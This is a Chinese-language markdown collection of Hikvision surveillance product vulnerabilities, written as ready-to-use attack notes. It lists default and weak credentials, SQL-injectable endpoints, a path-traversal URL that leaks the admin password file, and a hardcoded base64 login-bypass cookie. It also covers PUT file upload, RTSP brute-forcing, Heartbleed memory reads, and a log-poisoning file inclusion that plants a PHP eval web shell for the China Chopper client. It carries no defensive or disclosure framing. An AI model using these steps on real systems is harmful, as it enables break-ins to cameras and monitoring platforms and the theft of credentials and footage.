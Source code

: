 ## 海康威视漏洞集合
#### 默认密码
- admin：12345
- ​guest：12345
## iVMS-5000集中监控管理平台
## 漏洞类型：弱口令
## 漏洞细节
在链接`url/axis2-admin/login`
弱口令统一：admin/axis2

---
## 某备份系统
## 漏洞类型：SQL注入
## 漏洞细节

`/data/fetchPlanStatus.php`
`/data/fetchBackupPlan.php`
- 参数：row
- 数据库是sqlite

---
## 某流媒体管理系统
## 漏洞类型：任意文件遍历下载


## 漏洞细节
- 任意文件遍历下载
- `/systemLog/showFile.php?filename=./vtduConfig/index.php`
- 直接获取管理员密码：`url:7788/config/user.xml`

---
## 某款网络摄像机
## 漏洞类型：权限绕过
## 漏洞细节
- 摄像头内部固化了匿名账户，尽管大多情况下匿名账户是禁用的，仍可通过硬编码的方式绕过登陆。
- 创建一个名为“userInfo80”的cookie，路径为"/"，值为："YW5vbnltb3VzOlwxNzdcMTc3XDE3N1wxNzdcMTc3XDE3Nw==",意思为"user:pass"的base64硬编码格式。
- ​可以登录成功

---
## iVMS-8700安防综合管理平台
##  漏洞类型：可使用PUT方法上传文件
## 漏洞细节
- PUT /1.txt http /1.1
- Host:
- content-Length: 11
- wooyun 
- 可成功

---
## 某型号监控认证绕过
##  漏洞类型：权限绕过
## 漏洞细节
- 开放554端口，rtsp,使用nmap script rtsp-url-brute
- 可利用
- ​
---
## 视频监控
## 漏洞类型：心脏滴血
## 漏洞细节
- 可读取内存的用户名和密码

---
## IVMS系列的监控客户端
## 漏洞类型：文件包含
## 漏洞细节
- `urlindex.php?controller=../../../../Server/logs/error.log%00.php`
- 访问`url/<?eval($_POST['pass'])?>`
- `/index.php?controller=../../../../Server/logs/error.log%00.php`
- 使用菜刀链接，log文件，可解析为php
- 
---
## 产品型号
## 漏洞类型
## 漏洞细节
---